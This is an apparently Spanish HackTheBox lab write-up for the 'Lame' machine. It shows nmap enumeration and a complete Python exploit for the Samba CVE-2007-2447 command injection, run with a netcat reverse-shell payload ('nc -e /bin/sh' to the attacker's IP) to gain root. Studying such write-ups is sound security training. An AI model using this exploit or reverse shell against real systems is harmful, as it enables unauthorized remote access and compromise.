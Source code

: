 ```yaml
---
title: Lame HTB Writeup
published: 2024-06-25
description: 'Lame es una maquina Easy en la cual abusamos de una vulnerabilidad de SMB.'
image: 'image.png'
tags: [Easy, Windows]
category: 'HackTheBox'
draft: false 
---
```


# Information Gathering

Escaneado de todos los puertos TCP:

```bash
> sudo nmap -sS -p- --open --min-rate 5000 -Pn -n 10.10.10.3  -oG nmap
PORT     STATE SERVICE
21/tcp   open  ftp
22/tcp   open  ssh
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
3632/tcp open  distccd
```

Puertos TCP abiertos enumerados:

```bash
> nmap -p21,22,139,445,3632 -sVC 10.10.10.3 -Pn

PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 2.3.4
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 10.10.14.170
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      vsFTPd 2.3.4 - secure, fast, stable
|_End of status
22/tcp   open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
| ssh-hostkey: 
|   1024 60:0f:cf:e1:c0:5f:6a:74:d6:90:24:fa:c4:d5:6c:cd (DSA)
|_  2048 56:56:24:0f:21:1d:de:a7:2b:ae:61:b1:24:3d:e8:f3 (RSA)
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)
3632/tcp open  distccd     distccd v1 ((GNU) 4.2.4 (Ubuntu 4.2.4-1ubuntu4))
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_smb2-time: Protocol negotiation failed (SMB2)
| smb-os-discovery: 
|   OS: Unix (Samba 3.0.20-Debian)
|   Computer name: lame
|   NetBIOS computer name: 
|   Domain name: hackthebox.gr
|   FQDN: lame.hackthebox.gr
|_  System time: 2024-07-04T14:04:23-04:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_clock-skew: mean: 2h00m31s, deviation: 2h49m45s, median: 29s
```

# Enumeration

## Port 445 - SMB (Samba smbd 3.0.20)

busca en google Samba smbd 3.0.20 exploit.

Hay muchas opciones para usar, te recomiendo que pruebes varias y entiendas como funcionan, en este caso usaré esta: CVE

```bash
#!/usr/bin/python3

import sys
try:
    from smb.SMBConnection import SMBConnection
except:
    print("pysmb is not installed: python3 -m pip install pysmb")
    quit()

if not (2 < len(sys.argv) < 5):
    print("Usage:")
    print("    python3 smbExploit.py <IP> <PORT> <PAYLOAD>")
    print("       IP - Ip of the remote machine.")
    print("       PORT - (Optional) Port that smb is running on.")
    print("       PAYLOAD - Payload to be executed on the remote machine e.g. reverse shell.")
    print("")
    print("Example: python3 smbExploit.py 192.168.1.2 139 'nc -e /bin/sh 192.168.1.1 4444'")
    quit()

if len(sys.argv) == 3:
    ip = sys.argv[1]
    port = 139
    payload = sys.argv[2]
else:
    ip = sys.argv[1]
    port = sys.argv[2]
    payload = sys.argv[3]

user = "`" + payload + "`"
conn = SMBConnection(user, "na", "na", "na", use_ntlm_v2=False)

try:
    print("[*] Sending the payload")
    conn.connect(ip, int(port))
    print("[*] Payload was send successfully")
    quit()
except Exception as e:
    print("[*] Something went wrong")
    print("ERROR:")
    print(e)
    quit()
```

# Exploitation

## CVE-2007-2447: Remote Command Injection

Escuchamos netcat en el puerto 4444.

```bash
nc -nlvp 4444
```

La guía del exploit nos dice que lo hagamos así:

## Python Script

```bash
python3 smbExploit.py 10.10.10.3 445 'nc -e /bin/sh 10.10.14.170 4444'
```

   - Ejecutamos el exploit con python3.
   - Introducimos la IP de la máquina víctima.
   - Ponemos el puerto del SMB vulnerable, que en este caso es el 445 por defecto.
   - Luego dentro de las comillas ejecutamos el Revshell con netcat, colocando el tipo de shell que queremos, nuestra IP y el puerto en escucha que en este caso es 4444.

Inicia una sesión de shell Bash dentro de la cual puedes ejecutar comandos de forma interactiva, pero sin guardar ningún registro de sesión, ya que todo se descarta en /dev/null.

```bash
script /dev/null -c bash
```

Ya tenemos root

![alt text](image-1.png)